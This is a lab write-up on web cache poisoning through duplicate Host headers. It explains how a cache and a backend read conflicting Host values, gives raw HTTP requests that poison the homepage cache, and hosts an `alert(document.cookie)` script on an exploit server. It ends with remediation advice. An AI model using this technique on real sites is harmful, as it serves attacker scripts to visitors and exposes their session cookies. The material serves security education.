




## Challenge Overview
* **Challenge name**: Web cache poisoning via ambiguous requests
* **Category**: HTTP Host Header attacks / Web Cache Poisoning
* **Level**: Practitioner
* **Objective**: Poison the web cache of the application homepage to execute the JavaScript function `alert(document.cookie)` within victim browsers.

---

## 1. Core Fundamentals

To comprehend and exploit this vulnerability effectively, one must understand how intermediate caching proxies coordinate with backend origin servers, how Cache Keys are computed, and how HTTP request parsing standards govern duplicate headers.

### 1.1. Mechanics of Web Caching and the Cache Key

In modern distributed web architectures, a caching proxy (such as Varnish, Nginx Cache, Cloudflare, or Squid) sits in front of backend web applications to temporarily cache static assets and rendered HTML pages. This offloads database traffic and drastically reduces response latency.

Whenever an HTTP request arrives, the caching proxy computes a unique identifier termed the **Cache Key** to verify whether a fresh copy of the requested resource already exists in memory or disk. By default, standard Cache Keys are derived from:

```text
Cache Key = HTTP Method + Request Path / URI + Primary Host Header
```

- **Cache Hit (`X-Cache: hit`):** The incoming request possesses a Cache Key matching an active, non-expired cache record. The caching proxy immediately returns the stored response without contacting the backend server.
- **Cache Miss (`X-Cache: miss`):** The Cache Key does not exist in cache storage. The proxy forwards the request to the upstream backend server to retrieve fresh data, stores a cached copy according to `Cache-Control: max-age=...` directives, and returns the response to the client.

### 1.2. Ambiguous Requests and HTTP Parser Discrepancies

According to **RFC 7230 (Section 5.4)**, a compliant HTTP/1.1 request **must contain exactly one `Host` header field**. If an incoming request includes multiple `Host` header fields, the server MUST reject the message with a `400 Bad Request` status code.

However, in multi-tiered architectures combining front-end proxies and backend application runtimes, each tier frequently employs different HTTP parsing libraries:

- **At the Front-end Caching Tier:** The parser reads only the first `Host` header to compute the Cache Key, treating subsequent duplicate headers as unkeyed metadata or ignoring them altogether.
- **At the Backend Application Tier:** When encountering duplicate headers, the backend framework's parser may override the initial value and process the second `Host` header to handle business logic and dynamic template generation.

> [!NOTE]
> **Key Takeaway:** This parser differential between the cache proxy and the backend origin creates an opening for an Ambiguous Request: the attacker fools the cache proxy into associating the response with a legitimate victim's Cache Key while concurrently forcing the backend to render attacker-controlled markup.

---

## 2. Attack Architecture / Threat Model

### 2.1. Root Cause Analysis

The vulnerability stems from the confluence of two architectural security deficiencies:
1. **Lack of RFC 7230 Enforcement at the Proxy Layer:** The front-end cache fails to reject requests bearing duplicate `Host` headers and omits the secondary `Host` header from the computed Cache Key.
2. **Implicit Input Trust at the Backend Tier:** The backend application dynamically references the client-supplied `Host` header when building absolute or protocol-relative asset script URLs (`<script src="//[Host-Header-Value]/resources/js/tracking.js">`).

### 2.2. Attack Flow Diagram

```text
[ Attacker ]
       │
       │  Sends Ambiguous Request:
       │  GET / HTTP/1.1
       │  Host: victim-lab.net         <── (1) Cache reads this Host: Cache Key = 'GET / victim-lab.net'
       │  Host: exploit-server.net     <── (2) Backend reads this Host to render HTML markup!
       ▼
[ Front-end Cache Proxy ] ──(Cache Miss)──► [ Back-end Application Server ]
       │                                                 │
       │                                                 │ Renders homepage referencing malicious script:
       │                                                 │ <script src="//exploit-server.net/resources/js/tracking.js">
       │                                                 ▼
       │◄──────── Returns poisoned HTML response ────────┘
       │
       ├─► [ SAVED TO CACHE ] Stored under Cache Key: "GET / victim-lab.net"
       │
[ Victim ]
       │  GET / HTTP/1.1
       │  Host: victim-lab.net         <── Issues normal request to homepage
       ▼
[ Front-end Cache Proxy ] ──(Cache HIT!)──► Serves poisoned cached HTML containing Attacker's script!
                                             Victim browser automatically executes tracking.js
                                             from exploit-server ==> Stored XSS Triggered!
```

> [!NOTE]
> **Question:** Why can't we simply send a single header `Host: exploit-server.net` instead of two headers?
> 
> **Answer:**  
> If an attacker submits only `Host: exploit-server.net`, the front-end cache will calculate the Cache Key incorporating `exploit-server.net`. The poisoned response would then only be stored under the key associated with the attacker's domain. Regular users browsing the canonical `victim-lab.net` domain would never access that cache entry. Providing two conflicting `Host` headers is mandatory:
> - **Header 1 (`victim-lab.net`)**: Forces the front-end cache to map the response to the legitimate users' Cache Key.
> - **Header 2 (`exploit-server.net`)**: Forces the backend origin to render the attacker's script URL into the cached response body.

---

## 3. Vulnerability Exploitation

The exploitation procedure is conducted across five systematic steps, progressing from reconnaissance to weaponization and execution:

### Step 1: Auditing Caching Behavior and Reflection Points

Forward a baseline `GET / HTTP/1.1` request to Burp Suite **Repeater**. Analyze the HTTP response headers and returned HTML structure:

- **Cache Indicators:** The server returns distinct caching response headers including `Cache-Control: max-age=30`, `Age: 8`, and `X-Cache: hit`. This confirms that a public cache operates in front of the application with a 30-second TTL.
- **Resource Reflection Point:** Within the homepage HTML body, a script tag imports a tracking script via a protocol-relative URL:

```html
<script type="text/javascript" src="//0a1700f304b0069f805462b60076008c.h1-web-security-academy.net/resources/js/tracking.js"></script>
```

Observation: The domain in the imported JavaScript path is dynamically constructed directly from the request's incoming `Host` header.



---

### Step 2: Testing Ambiguous Requests with a Cache Buster (`?abc=1`)

To test reflection behavior safely without contaminating the production cache for legitimate visitors, attach a Cache Buster parameter (`?abc=1`) to isolate a unique Cache Key space. Simultaneously, append a secondary `Host` header with an arbitrary payload `Host: tu4nki3t`:

```http
GET /?abc=1 HTTP/1.1
Host: 0a1700f304b0069f805462b60076008c.h1-web-security-academy.net
Host: tu4nki3t
User-Agent: Mozilla/5.0...
```

**Verification Results:**
- **Cache State:** The initial request registers an `X-Cache: miss` with `Age: 0`.
- **Successful Reflection:** The script tag in the response body dynamically reflects the second header value:

```html
<script type="text/javascript" src="//tu4nki3t/resources/js/tracking.js"></script>
```

This confirms our hypothesis: the backend server prioritizes the second `Host` header (`tu4nki3t`) when resolving resource paths. Additionally, the assigned Exploit Server domain is identified as `https://exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net`.



---

### Step 3: Hosting the Malicious Script on the Exploit Server

Because the backend retains the relative file path `/resources/js/tracking.js`, navigate to the Exploit Server web interface and configure a corresponding payload endpoint:

- **File Path:** `/resources/js/tracking.js`
- **HTTP Response Header:**
  ```http
  HTTP/1.1 200 OK
  Content-Type: application/javascript; charset=utf-8
  ```
- **Response Body:**
  ```javascript
  alert(document.cookie);
  ```

Click **Store** to stage the payload on the exploit infrastructure.



---

### Step 4: Poisoning the Main Homepage Cache

Return to Burp Suite Repeater to transition from testing to active exploitation:
1. **Remove the Cache Buster:** Strip the `?abc=1` query parameter from the Request Line to target the live homepage endpoint `GET / HTTP/1.1`.
2. **Assign the Exploit Domain:** Replace the value of the secondary `Host` header with the Exploit Server hostname:

```http
GET / HTTP/1.1
Host: 0a1700f304b0069f805462b60076008c.h1-web-security-academy.net
Host: exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net
Cookie: session=...
```

Send the request repeatedly until the response reflects the exploit server domain and is stored in the cache:

```html
<script type="text/javascript" src="//exploit-0aa4009f047306ab804d6188010b0021.exploit-server.net/resources/js/tracking.js"></script>
```

Re-issuing the request produces an `X-Cache: hit` response header, verifying that the poisoned response has officially hijacked the homepage cache entry.



---

### Step 5: Triggering the Attack and Verifying Execution

When simulated victims navigate to the homepage, the front-end cache serves the compromised cached response. The victim browser loads and executes `/resources/js/tracking.js` from the Exploit Server, triggering `alert(document.cookie)`.

The lab interface instantly updates to display: **Congratulations, you solved the lab!**


---

## 4. Remediation Strategies

To systematically prevent Web Cache Poisoning via ambiguous HTTP requests, organizations must adopt defense-in-depth controls across both reverse proxy and backend application layers:

### 4.1. Reverse Proxy Hardening Configurations

- **Strict RFC 7230 Compliance:** Configure front-end proxies (Nginx, Apache, HAProxy, Envoy) to immediately reject requests containing duplicate `Host` headers with an `HTTP 400 Bad Request` status code.
- **Request Normalization:** Normalize incoming HTTP headers before forwarding traffic upstream, stripping duplicate or ambiguous headers entirely.
- **Strip Dangerous Unkeyed Headers:** Ensure perimeter proxies strip or ignore untrusted override headers such as `X-Forwarded-Host`, `X-Host`, and `X-Forwarded-Server` received from external clients.

### 4.2. Backend Application Hardening

- **Adopt Relative Resource URLs:** Do not generate resource import paths using dynamic `Host` headers. Instead, utilize root-relative paths:

```html
<!-- Secure approach: Root-relative resource referencing -->
<script src="/resources/js/tracking.js"></script>
```

- **Enforce Immutable Domain Configuration:** If absolute URLs are strictly required, populate domains strictly from immutable environment variables (e.g., `APP_URL=https://example.com` in `.env`), never reading dynamic variables such as `$_SERVER['HTTP_HOST']` or `req.headers.host`.
- **Implement Appropriate Cache Controls:** For responses that reflect user-controllable input, apply strict `Cache-Control: private, no-cache` directives to prohibit public proxy caching.
